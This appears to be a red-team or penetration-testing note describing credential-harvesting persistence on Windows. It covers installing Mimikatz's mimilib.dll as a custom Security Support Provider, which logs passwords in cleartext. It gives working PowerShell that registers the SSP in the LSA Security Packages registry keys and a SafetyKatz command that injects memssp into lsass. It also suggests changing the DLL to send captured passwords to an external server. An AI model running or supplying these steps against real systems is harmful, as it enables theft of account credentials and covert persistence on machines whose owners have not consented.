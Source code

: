 An SSP (Security Support Provider) is a DLL that allows for authentication in applications via **NTLM, Kerberos, Wdigest and CredSSP**

Mimikatz provides a custom SSP - `mimilib.dll` This SSP logs local logons,
service account and machine account passwords in clear text on the
target server.

If you have local admin on a machine you can inject your own custom SSP on the account.

Option 1: manually copy **mimilib.dll** into System32 and add the following reg keys
```powershell
$packages = Get-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'

$packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name
'Security Packages' -Value $packages

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name
'Security Packages' -Value $packages
```

Option 2: Use mimikatz and inject it into lsass (Not super stable with Server 2019 and Server 2022 but still usable)
```powershell
SafetyKatz.exe -Command '"misc::memssp"'
```


> [!NOTE] **IMPORTANT**
> You'll still need Domain Administrator privileges to read the `mimilsa.log` file in System32
> a
> Customising the dll to send the logs to an external web server or to a file share would be best


Passwords will be logged in cleartext
![[Pasted image 20250510232411.png]]

